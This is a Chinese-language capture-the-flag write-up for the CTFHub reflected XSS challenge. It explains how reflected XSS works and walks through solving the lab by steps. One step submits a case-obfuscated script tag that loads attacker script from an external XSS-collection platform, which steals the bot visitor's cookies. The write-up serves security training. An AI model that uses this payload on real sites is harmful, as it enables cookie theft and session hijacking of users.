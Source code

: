 ```yaml
---
title: Web - 反射型 XSS
description: CTFHub - 反射型 XSS
---
```


## 反射型 XSS

反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中。

反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

本题需要掌握的是对客户端 Cookies 的窃取。

## 解题思路

- 在 [XSS 平台](https://xsshs.cn/xss.php?do=login) 注册并登录
- 创建项目<br>
![项目名称、描述随意](img/ctfhub_reflected_xss01.jpg)
- 配置代码中选择默认模块就可以了(<ゝωΦ)<br>
![无 keepsession](img/ctfhub_reflected_xss02.jpg)
- 再来看看题目对应的网站，在`What's your name`处填入内容并提交，提交内容会显示在页面上<br>
![咕咕鸡](img/ctfhub_reflected_xss03.jpg)
- 使用`<h3>`标签进行测试，证明显示的内容没有被过滤<br>
![其他标签也可以](img/ctfhub_reflected_xss04.jpg)
- `Send URL to Bot`应该是充当其他用户来对提供的链接进行访问
- 将以下内容粘贴至`What's your name`并提交表单<br>
![</tExtArEa>'"><sCRiPt sRC=//xsshs.cn/GPFK></sCrIpT>](img/ctfhub_reflected_xss05.jpg)
- 提交表单后，复制链接并粘贴到`Send URL to Bot`提交，即可在项目内容中查看到 flag<br>
![完成！](img/ctfhub_reflected_xss06.jpg)

## 参考资料

- [XSS Cross-site Scripting Attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)